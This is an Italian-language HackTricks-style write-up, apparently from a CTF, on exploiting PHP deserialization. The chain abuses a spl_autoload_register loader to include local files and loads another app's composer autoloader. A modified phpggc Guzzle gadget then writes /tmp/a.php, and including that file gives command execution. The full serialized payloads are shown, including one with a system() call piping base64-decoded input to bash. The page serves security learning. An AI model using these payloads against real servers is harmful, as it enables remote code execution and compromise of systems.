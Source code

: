 # PHP - Deserializzazione + Classi Autoload

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Prima di tutto, dovresti controllare cosa sono le [**Classi Autoloading**](https://www.php.net/manual/en/language.oop5.autoload.php).

## Deserializzazione PHP + spl\_autoload\_register + LFI/Gadget

Ci troviamo in una situazione in cui abbiamo trovato una **deserializzazione PHP in un'app web** senza **nessuna** libreria vulnerabile a gadget all'interno di **`phpggc`**. Tuttavia, nello stesso contenitore c'era una **diversa app web composer con librerie vulnerabili**. Pertanto, l'obiettivo era **caricare il loader composer dell'altra app web** e abusarne per **caricare un gadget che sfrutterà quella libreria con un gadget** dall'app web vulnerabile alla deserializzazione.

Passi:

* Hai trovato una **deserializzazione** e **non ci sono gadget** nel codice dell'app attuale
* Puoi abusare di una funzione **`spl_autoload_register`** come la seguente per **caricare qualsiasi file locale con estensione `.php`**
* Per questo usi una deserializzazione in cui il nome della classe sarà all'interno di **`$name`**. Non **puoi usare "/" o "."** in un nome di classe in un oggetto serializzato, ma il **codice** sta **sostituendo** gli **underscore** ("\_") **con slash** ("/"). Quindi un nome di classe come `tmp_passwd` sarà trasformato in `/tmp/passwd.php` e il codice cercherà di caricarlo.\
Un **esempio di gadget** sarà: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Se hai un **upload di file** e puoi caricare un file con **estensione `.php`**, potresti **sfruttare questa funzionalità direttamente** e ottenere già RCE.
{% endhint %}

Nel mio caso, non avevo nulla di simile, ma c'era all'interno dello **stesso container** un'altra pagina web di composer con una **libreria vulnerabile a un gadget `phpggc`**.

* Per caricare questa altra libreria, prima devi **caricare il loader di composer di quell'altra web app** (perché quello dell'applicazione corrente non accederà alle librerie dell'altra). **Conoscendo il percorso dell'applicazione**, puoi ottenere questo molto facilmente con: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Nel mio caso, il loader di composer si trovava in `/www/frontend/vendor/autoload.php`)
* Ora puoi **caricare** il **loader di composer dell'altra app**, quindi è tempo di **`generare il payload phpgcc`** da utilizzare. Nel mio caso, ho usato **`Guzzle/FW1`**, che mi ha permesso di **scrivere qualsiasi file all'interno del filesystem**.
* NOTA: Il **gadget generato non funzionava**, affinché funzionasse ho **modificato** quel payload **`chain.php`** di phpggc e impostato **tutti gli attributi** delle classi **da privati a pubblici**. Altrimenti, dopo aver deserializzato la stringa, gli attributi degli oggetti creati non avevano valori.
* Ora abbiamo il modo di **caricare il loader di composer dell'altra app** e avere un **payload phpggc che funziona**, ma dobbiamo **fare questo nella STESSA RICHIESTA affinché il loader venga caricato quando il gadget viene utilizzato**. Per questo, ho inviato un array serializzato con entrambi gli oggetti come:
* Puoi vedere **prima il loader che viene caricato e poi il payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Ora possiamo **creare e scrivere un file**, tuttavia, l'utente **non poteva scrivere in nessuna cartella all'interno del server web**. Quindi, come puoi vedere nel payload, PHP chiama **`system`** con alcuni **base64** creati in **`/tmp/a.php`**. Poi, possiamo **riutilizzare il primo tipo di payload** che abbiamo usato come LFI per caricare il caricatore di composer dell'altra webapp **per caricare il file generato `/tmp/a.php`**. Basta aggiungerlo al gadget di deserializzazione:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Riepilogo del payload**

* **Carica l'autoload di composer** di un'altra webapp nello stesso container
* **Carica un gadget phpggc** per abusare di una libreria dell'altra webapp (la webapp iniziale vulnerabile alla deserializzazione non aveva alcun gadget nelle sue librerie)
* Il gadget **creerà un file con un payload PHP** in /tmp/a.php con comandi malevoli (l'utente della webapp non può scrivere in nessuna cartella di nessuna webapp)
* L'ultima parte del nostro payload utilizzerà **caricare il file php generato** che eseguirà comandi

Ho dovuto **chiamare questa deserializzazione due volte**. Nei miei test, la prima volta il file `/tmp/a.php` è stato creato ma non caricato, e la seconda volta è stato caricato correttamente.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
